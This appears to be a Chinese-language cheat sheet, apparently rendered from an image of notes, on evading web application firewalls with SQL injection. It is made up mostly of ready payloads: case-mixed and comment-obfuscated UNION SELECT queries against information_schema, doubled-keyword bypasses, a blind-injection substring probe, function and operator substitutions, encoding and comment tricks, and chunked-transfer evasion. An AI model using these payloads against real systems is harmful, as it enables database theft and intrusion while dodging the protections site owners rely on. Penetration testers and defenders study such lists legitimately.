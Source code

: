 `id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table\_name*/) FrOM /*information\_schema*/.tables /*!WHERE* *//!TaBlE\_ScHeMa*/ like database()#`

（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：

`id=-1'UNIunionONSeLselectECT1,2,3–-`

## Sql注入Bypass

### WAF绕过-应用层

Sql绕过姿势：[https://www.csdn.net/tags/MtTaEgwsMTU4NzM1LWJsb2cO0O0O.html](https://www.csdn.net/tags/MtTaEgwsMTU4NzM1LWJsb2cO0O0O.html)

### 大小写/关键字替换

+   id=1UnIoN/\*\*/SeLeCT1,user()
+   Hex() bin() 等价于 ascii()
+   Sleep() 等价于 benchmark()
+   Mid() substring() 等价于substr()
+   @@user 等价于 User()
+   @@Version 等价于 version()

绕过：

> AND -> &&
>
> OR -> || / ^
>
> \= -> LIKE,REGEXP, BETWEEN, not < and not >，!<>
>
> X -> not between 0 and X
>
> WHERE -> HAVING
>
> 手工盲注 1'||ascii(substr(database(),2,1))>='120

### 各种编码

大小写，URL，hex，%0A等

### 注释使用

//----+#//+:%00/!/等

### 再次循环

union==uunionnion

### 分块传输

比如在burp抓包时，存在Post请求的注入，如id=1' and 1=2#

尝试分块传输
